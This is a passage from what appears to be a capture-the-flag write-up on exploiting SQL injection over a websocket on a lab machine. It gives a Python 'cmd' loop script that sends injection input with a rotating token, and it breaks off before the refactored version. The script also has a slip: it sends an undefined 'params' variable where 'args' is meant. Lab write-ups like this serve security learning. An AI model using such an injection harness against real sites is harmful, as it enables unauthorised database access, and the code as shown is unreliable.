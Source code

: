 
### SQLi Helpers

I’ll show two ways to exploit this SQL injection in websockets, first with a
Python shell that allows me to easily send injections, and then using `sqlmap`
and a custom `flask` proxy.

#### Python Loop

To exploit this, I’ll create a Python script to manually read in injections
from me at the command line, and then print the result. I’ll use the `cmd`
module to make a pretty terminal with up arrow for history support. The first
attempt I made was:

    
    
    #!/usr/bin/env python3
    
    import json
    import websocket
    from cmd import Cmd
    
    
    class Term(Cmd):
        prompt = "injection> "
    
        def __init__(self):
            self.ws = websocket.create_connection("ws://gym.crossfit.htb/ws/")
            data = json.loads(self.ws.recv())
            self.token = data["token"]
            super().__init__()
    
        def default(self, args):
            self.ws.send(
                f'{{"message":"available","params":"{params}", "token": "{self.token}"}}'
            )
            data = json.loads(self.ws.recv())
            self.token = data["token"]
            print(data["debug"])
            
        def do_exit(self, args):
            return True
    
         
    term = Term()
    term.cmdloop()
    

Basically I create a `Term` class which subclasses `Cmd`. I set the prompt,
and use the `__init__` function to create the connection to the websocket, and
get the first token. The `default` function will run on any input, with the
input as `args`. It will send the input as the `params` argument in the JSON
payload, including the most recent `token`, and then read the response, update
the `token`, and print the `debug`.

The issue this would run into is that waiting more than a few seconds to look
up the SQL for the next injection would lead to a timeout on the websocket,
and an exception on the `read`. I refactored a bit to now catch that error,
reconnect, and then continue:
